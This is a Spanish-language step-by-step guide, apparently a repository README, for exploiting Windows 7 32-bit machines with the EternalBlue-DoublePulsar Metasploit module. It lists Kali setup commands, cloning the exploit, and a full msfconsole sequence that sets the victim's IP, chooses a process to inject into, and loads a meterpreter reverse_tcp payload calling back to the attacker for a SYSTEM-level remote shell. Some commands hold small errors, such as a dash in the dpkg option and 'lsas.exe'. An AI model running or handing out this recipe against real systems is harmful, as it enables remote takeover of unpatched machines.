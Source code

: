 # Guía práctica para explotación de Eternalblue-DoublePulsar sobre Windows 7 - i386 

## Procedimiento

## Preparación de entorno
Se debe instalar el programa wine y agregar la arquitectura de 32bits al sistema, para esto ejecutaremos los pasos siguientes:

- root@kali:~#  apt-get install wine -y
- root@kali:~#  apt-get install winetricks -y
- root@kali:~#  dpkg –add-architecture i386 && apt-get update && apt-get install wine32 -y
## 1) Instalación del módulo en Metasploit
- Clonar el repositorio de Eternalblue-DoublePulsar 
- root@kali:~#  git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit
- root@kali:~#  cd Eternalblue-Doublepulsar-Metasploit/
- Copiar el archivo eternalblue_doublepulsar.rb a la siguiente dirección: /usr/share/metasploit-framework/modules/exploits/windows/smb/
- Crear la estructura de directorios ‘/root/shadowbroker/windows/lib/x86-Windows/’ y copiar la carpeta deps en  ‘/root/shadowbroker/windows/lib/x86-Windows/’
- Abrir una terminal y tipear el comando winecfg para que se cree la carpeta /root/.wine/drive_c/
## 2) Explotación    
- Abrir una terminal y iniciar metasploit con el comando msfconsole
- Llamamos al exploit con el path exploit/windows/smb/eternalblue_doublepulsar
  - msf5 > use exploit    
- vemos las opciones disponibles 
  - msf5 > show options
- Ingresamos la IP y el puerto (por defecto 445) del objetivo
  - msf5 > set RHOST (IP víctima)
- Seleccionamos el sistema objetivo
  - msf5 > show targets
  - msf5 > set target 8
- Seleccionamos el proceso en cual se va a inyectar el payload, es muy importante tener en cuenta que tipo de arquitectura se va a atacar, por defecto el proceso a inyectar es wlms.exe, esto funciona con equipos de 32 bits, si nuestra víctima utiliza un sistema de 64bits se debe cambiar de proceso a lsas.exe, de lo contrario el exploit fallará.
  - msf5 > set PROCESSINJECT wlms.exe    (si es de 32bits)
  - msf5 > set PROCESSINJECT lsas.exe        (si es de 64bits)
- Seleccionamos la arquitectura del sistema que vamos a atacar (x32 o x64) en nuestro caso 32 bits
  - msf5 > set TARGETARCHITECTURE x32
- Seleccionamos el payload, en nuestro caso un meterpreter, y lo configuramos 
  - msf5 > set PAYLOAD windows/meterpreter/reverse_tcp
  - msf5 > set LHOST (IP atacante)
- Revisamos una última vez que estén correctamente configurados todos los parámetros
  - msf5 > show options
- Finalmente usamos el comando exploit y obtendremos una sesión remota de meterpreter con privilegios de System en la máquina víctima

## Materiales y recursos
1- Máquina atacante con Kali Linux y Metasploit
2- Exploit Eternalblue-DoublePulsar (https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit)
3- Máquina víctima, Windows 7 con arquitectura de 32bits 
